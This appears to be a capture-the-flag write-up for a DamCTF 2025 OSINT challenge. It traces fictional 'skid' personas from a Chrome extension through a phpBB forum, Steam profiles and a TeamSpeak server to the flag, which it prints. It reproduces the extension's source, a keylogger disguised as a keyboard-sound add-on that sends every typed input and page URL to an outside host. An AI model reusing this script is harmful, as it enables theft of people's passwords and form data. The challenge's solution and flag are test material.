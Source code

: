 ```yaml
---
title: "l33t-dangerous"
description: "I was digging through my dad’s old CDs and found this. He used to work IT for the school district. Apparently, a middle schooler installed it on a teacher’s PC and somehow got into the grading system with it. No idea how it worked, but maybe you can figure it out." 
pubDate: 2025-05-12
ctf: "DamCTF 2025"
category: "osint"
author: "sealldev"
section: "CTFs"
image: "images/25-damctf/icon.png"
---
```


## What are we working with?

This challenge we start with a `boom.crx`. With some research the `.crx` file extension corresponds for a Chrome Extension. There are [CRX Extractors](https://crxextractor.com/) online, uploading the file we get a `boom.zip` containing the source code.

## Foothold

Inside is a `content-script.js` and a `manifest.json`.

```json
{
  "manifest_version": 3,
  "name": "Vine Boom Keyboard",
  "version": "1.3.3.7",
  "description": "Add some fun to your typing experience!",
  "content_scripts": [
    {
      "js": [
        "content-script.js"
      ],
      "matches": [
        "http://*/*", "https://*/*"
      ],
      "run_at": "document_start"
    }
  ]
}
```

```js
let boom = new Audio("data:audio/wav;base64,<B64 CONTENT>");

window.fetch = async (...args) => {
    // this stupid extension is useless why wont it work anymore?????
    // TODO: find out who invented CORS

    // whatever let's just simulate it for now
    await new Promise(resolve => setTimeout(resolve, 2000));
    return {
        ok: false,
        status: 418,
        statusText: "I'm a teapot",
        json: async () => ({ success: true }),
        text: async () => "it worked great",
    };
};

const targetNode = document.documentElement

const config = {attributes: true, childList: true, subtree: true};

const callback = (mutationList, observer) => {
    for (const mutation of mutationList) {
        if (mutation.type === "childList" && mutation.addedNodes.length > 0) {
            mutation.addedNodes.forEach(node => {
                if (node.nodeName === "INPUT") {
                    node.addEventListener("input", (e) => {
                        boom.currentTime = 0;
                        boom.play();

                        fetch("https://mwaas.el1t3.fun/payload", {
                            method: "POST",
                            headers: {
                                "Content-Type": "application/json",
                            },
                            body: JSON.stringify({
                                value: e.target.value,
                                url: window.location.href,
                                ele: e.target.name,
                                user: "NAVI"
                            }),
                        });
                    });
                }
            });
        }
    }
};

// Create an observer instance linked to the callback function
const observer = new MutationObserver(callback);

// Start observing the target node for configured mutations
observer.observe(targetNode, config);
```

The initially interesting part is the URL `mwaas.el1t3.fun` which seems to be used to exfiltrate data (before CORS).

Visiting the domain has a sample page with a login:
![mwaas.png](images/25-damctf/mwaas.png)

Selecting 'Login' redirects to a SimpleSAMLphp login page:
![ssp.png](images/25-damctf/ssp.png)

If I replicate a sample request to the `/payload` endpoint we get the following response:
`Upload functionality has been disabled after the disappearance of CacheTheStamp3de`

This login page is under the 2nd level domain `el1t3.fun`: `https://el1t3.fun/simplesaml/module.php/core/loginuserpass?...`

Visiting the domain with no path is a phpBB forum (ah the early 2000s UI):
![forumpage.png](images/25-damctf/forumpage.png)

## Characters

Exploring the threads we can see there are a few users:
- `NAVI` (which we can see is the user in the Chrome extension)
- `CacheTheStamp3de` (presumably disappeared)
- `[myg0t] konata` (Outside of the CTF context, `myg0t` is seemingly a group that would join servers and blatantly cheat)
- `LOIC`
- `pootis`

From reading the threads they all seem to be cheaters in Counter-Strike 1.6 and play gun-game.

## Threads

There are a few interesting things from these threads:

`CacheTheStamp3de` seems to be setting up a CS server, in that is a webserver:
![configcs.png](images/25-damctf/configcs.png)

Visiting the URL we have directory listing!
![csstrike.png](images/25-damctf/csstrike.png)

The `maps/` folder is pretty uninteresting (just maps) but the parent folder has an interesting image `sfz_motd.jpg`:
![sfz_motd.png](images/25-damctf/sfz_motd.png)

There is an IP address for a TeamSpeak server! But we don't know the password, good to keep in mind though.

There is another thread from `NAVI` showing proof they don't cheat (which is absolute cinema):
![navicheating.png](images/25-damctf/navicheating.png)

The video isn't attached but is a very entertaining video of poor CS gameplay and the best of the best Linkin Park in WINAMP, bundled with Notepad typing for speech and HyperCam 2. Lol.

The interesting part is when the Console is opened, and we can see some Steam IDs:
![steamidsnavi.png](images/25-damctf/steamidsnavi.png)

## Steam

The two IDs link to Steam profiles for `NAVI` and `pootis` and can be converted to profile URLs with https://steamid.io:
- `NAVI`: `STEAM_0:0:936738840` -> https://steamcommunity.com/profiles/76561199833743408
- `pootis`: `STEAM_0:0:937385953` -> https://steamcommunity.com/profiles/76561199835037634


`NAVI`'s profile has a comment from [CacheTheStamp3de](https://steamcommunity.com/profiles/76561199834323082) but their profile is private.

`pootis` is friends with `[myg0t] konata` (https://steamcommunity.com/profiles/76561199834257966):
![konatasteam.png](images/25-damctf/konatasteam.png)

They are in a group which seems to line up with the acronym seen on the TeamSpeak server and in `NAVI`'s 'i'm not hacking' video: **Skid Force Zero**.

They are also friends with `LOIC`, but their profile is private.

The group has comments from the members on the forum! But we can find something particularly interesting from `CacheTheStamp3de`:
![tspass.png](images/25-damctf/tspass.png)

We can now connect to the TeamSpeak server!

## TeamSpeak

Inside the server we have no permissions, but we can see a description for the 'Gungame 24/7' channel!

![tsdesc.png](images/25-damctf/tsdesc.png)


Now here I got quite stuck, I couldn't figure out what to do. I looked at registering on the forum and spotted this:
![regophrase.png](images/25-damctf/regophrase.png)

That phrase we need is from TeamSpeak! We can now register an account!

## Forum Access

I register an account `sealldev` and we can now see a new 'Hacking' board!

![hackingboard.png](images/25-damctf/hackingboard.png)

The 'steal creds from noobs' thread has the flag!

![flag1.png](images/25-damctf/flag1.png)

Flag: `dam{we_wer3_the_skids_all_al0ng}`

## Further Reading & Memes

I incline you to read the part 2 to this challenge [l33t-benign](./25-damctf-l33t-benign) as it ties directly into this and is a great web challenge.

After the CTF there were some shenanigans on the TeamSpeak server...

Bad Apple was made using usernames, and it's beautiful...

<video controls>
  <source src="/public/badapple.mp4" type="video/mp4" />
</video>








